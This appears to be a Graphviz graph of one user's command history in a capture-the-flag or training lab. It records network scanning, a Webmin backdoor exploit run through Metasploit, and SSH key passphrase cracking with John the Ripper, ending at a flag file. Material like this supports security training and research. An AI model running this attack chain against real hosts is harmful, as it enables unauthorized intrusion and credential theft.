 // creating graph for user: 70
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 "]
	1 [label="nmap 172.18.1.5 -p 10000 A0 "]
	2 [label="J8 cd Downloads/ U"]
	3 [label="ls U"]
	4 [label="cd Downloads/ U"]
	5 [label="ls U"]
	6 [label="sh 47293.sh 172.18.1.5:10000 U"]
	7 [label="bash 47293.sh 172.18.1.5:10000 U"]
	8 [label="nano utok.sh U"]
	9 [label="sh utok.sh 172.18.1.5:10000 U"]
	10 [label="nano utok.sh U"]
	11 [label="msfconsole U"]
	12 [label="exit U"]
	13 [label="msfconsole U"]
	14 [label="use unix/webapp/webmin_backdoor U"]
	15 [label="help U"]
	16 [label="show options U"]
	17 [label="set RHOSTS 172.18.1.5 U"]
	18 [label="exploit U"]
	19 [label="ip a U"]
	20 [label="set LHOST 192.168.131.85 U"]
	21 [label="exploit U"]
	22 [label="exit U"]
	23 [label="quit U"]
	24 [label="exit -y U"]
	25 [label="clear U"]
	26 [label="namp 172.18.1.1/24 U"]
	27 [label="nmap 172.18.1.1/24 A0 "]
	28 [label="nmap 10.0.1.1/24 A0 "]
	29 [label="nmap 10.1.0.1/24 A0 "]
	30 [label="nmap 100.100.100.1/24 A0 "]
	31 [label="msfconsole U"]
	32 [label="use unix/webapp/webmin_backdoor U"]
	33 [label="set LHOST 192.168.131.85 U"]
	34 [label="nmap 172.168.1.1/24 A0 "]
	35 [label="nmap 172.18.1.1/24 A0 "]
	36 [label="set RHOSTS 172.18.1.5 U"]
	37 [label="nmap 10.1.0.1/24 A0 "]
	38 [label="exploit U"]
	39 [label="show options U"]
	40 [label="curl 172.18.1.5:10000 U"]
	41 [label="exploit U"]
	42 [label="clear U"]
	43 [label="nmap 10.1.17.4 A0 "]
	44 [label="nano key.txt U"]
	45 [label="chmod 600 key.txt U"]
	46 [label="ssh -i key.txt eve@10.1.17.4 U"]
	47 [label="ssh -i key.txt eve@10.1.17.4 U"]
	48 [label="ssh -i key.txt eve@10.1.17.4 U"]
	49 [label="ls U"]
	50 [label="./ssh2john.py U"]
	51 [label="./ssh2john.py key.txt U"]
	52 [label="./ssh2john.py key.txt > sshjohn.txt U"]
	53 [label="ls U"]
	54 [label="man john U"]
	55 [label="john --single sshjohn.txt U"]
	56 [label="john --show sshjohn.txt U"]
	57 [label="john --single sshjohn.txt U"]
	58 [label="john --show sshjohn.txt U"]
	59 [label="john -i sshjohn.txt U"]
	60 [label="john --incremental sshjohn.txt U"]
	61 [label="ls U"]
	62 [label="gunzip /usr/share/wordlists/rockyou.txt.gz U"]
	63 [label="clear U"]
	64 [label="john --wordlist /usr/share/wordlists/rockyou.txt sshjohn.txt A6 M6 "]
	65 [label="ssh -i key.txt eve@10.1.17.4 U"]
	66 [label="ssh -i key.txt eve@10.1.17.4 U"]
	67 [label="ls U"]
	68 [label="cd top-secret/ U"]
	69 [label="ls U"]
	70 [label="cat flag.txt A8 M8 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	rankdir=LR
}

